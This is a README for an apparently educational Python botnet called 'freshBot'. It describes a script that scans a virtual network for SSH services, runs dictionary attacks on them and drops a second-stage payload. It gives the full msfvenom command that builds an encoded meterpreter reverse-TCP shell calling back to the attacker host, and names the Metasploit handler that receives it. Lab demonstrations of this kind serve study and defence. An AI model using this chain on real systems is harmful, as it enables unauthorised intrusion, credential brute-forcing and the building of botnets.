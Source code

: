 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
<p>**scandrop.py** scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.</p>
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: **Linux kali 4.16.0-kali2-amd64**<br>
2. Our Web Server: **192.168.203.1/evil_file**<br>
3. **4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.<br>
4. Python - paramiko module.<br>
5. msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file<br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>
